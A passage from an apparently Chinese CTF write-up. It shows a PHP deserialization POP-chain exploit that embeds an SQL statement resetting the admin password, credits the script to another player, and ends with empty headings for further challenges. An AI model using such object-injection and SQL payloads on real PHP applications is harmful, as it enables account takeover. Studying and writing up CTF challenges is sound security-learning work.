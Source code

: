 ```php
    public $mysqli;
    public $token;

}

$sql = 'update user set password=md5("admin") where username="admin"';

$d = new dbCtrl();
$d->name = 'xl';
$d->password = 'xl';

$c = new Info();
$c->CtrlCase = $d;

$b = new User();
$b->nickname = $c;
$b->age = $sql;

$a = new User();
$a->nickname = $b;

echo '";s:8:"nickname";'.serialize($a).';}';
```

![image-20221226172704055](four.assets/image-20221226172704055.png)

这个脚本是**X1r0z**写的，之前都是嗯构造在那数字符，这个方法学到了

> 只构造内层类，外层补上外面的一点字符串，然后用python加union就构造好了age

## [SCTF2019]Flag Shop

node.js





## [WMCTF2020]Make PHP Great Again
